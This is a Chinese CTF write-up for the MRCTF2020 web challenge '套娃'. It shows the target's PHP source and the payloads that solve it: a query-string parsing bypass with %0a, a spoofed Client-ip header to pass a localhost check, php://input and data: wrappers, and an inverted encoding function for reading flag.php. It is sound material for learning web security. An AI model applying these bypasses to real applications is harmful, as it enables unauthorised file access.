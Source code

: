 # \[MRCTF2020]套娃

## \[MRCTF2020]套娃

## 考点

* PHP参数污染
* PHP的字符串解析特性
* JSFuck

## wp

F12看到源码

```php
//1st
$query = $_SERVER['QUERY_STRING'];

 if( substr_count($query, '_') !== 0 || substr_count($query, '%5f') != 0 ){
    die('Y0u are So cutE!');
}
 if($_GET['b_u_p_t'] !== '23333' && preg_match('/^23333$/', $_GET['b_u_p_t'])){
    echo "you are going to the next ~";
}
```

`$_SERVER['QUERY_STRING']`是请求附带的参数，不能有`_`，但是后一段代码要求GET参数`b_u_p_t`，这是PHP的参数污染问题，用<mark style="color:orange;">`b[u[p[t`</mark>，发现不行，那还可以用<mark style="color:red;">`空格`</mark>或者<mark style="color:red;">`.`</mark>。又要求参数不等于23333，但是要和它长得一模一样，则可以使用%0a绕过`preg_match`

payload：`b u p t=23333%0a`

来到下一层`secrettw.php` ，F12看到一堆JSFuck编码，放到控制台执行，给了提示`post me Merak`

![](<../../.gitbook/assets/image (5) (1).png>)

POST Merak可以得到源码

```php
<?php 
error_reporting(0); 
include 'takeip.php';
ini_set('open_basedir','.'); 
include 'flag.php';

if(isset($_POST['Merak'])){ 
    highlight_file(__FILE__); 
    die(); 
} 


function change($v){ 
    $v = base64_decode($v); 
    $re = ''; 
    for($i=0;$i<strlen($v);$i++){ 
        $re .= chr ( ord ($v[$i]) + $i*2 ); 
    } 
    return $re; 
}
echo 'Local access only!'."<br/>";
$ip = getIp();
if($ip!='127.0.0.1')
echo "Sorry,you don't have permission!  Your ip is :".$ip;
if($ip === '127.0.0.1' && file_get_contents($_GET['2333']) === 'todat is a happy day' ){
echo "Your REQUEST is:".change($_GET['file']);
echo file_get_contents(change($_GET['file'])); }
?>  
```

IP限制可以使用`Client-ip: 127.0.0.1`绕过，`file_get_contents($_GET['2333'])`可以使用`php://input`或者`data:text/plain,todat is a happy day`绕过，最后再反写`change`函数就可以了

`change`函数的加密逻辑就是 `C = P + 2x`，反过来不难写出解密逻辑

```php
function dechange($v){ 
    $re = ''; 
    for($i=0;$i<strlen($v);$i++){ 
        $re .= chr ( ord ($v[$i]) - $i*2 ); 
    } 
    return base64_encode($re); 
}
```

flag.php的密文为`ZmpdYSZmXGI=`

![](<../../.gitbook/assets/image (1) (1).png>)

## 小结

1. [利用PHP的字符串解析特性Bypass](https://www.freebuf.com/articles/web/213359.html)
2. 对于本地IP的绕过，可以使用`X-Forwarded-For`或者`Client-ip`
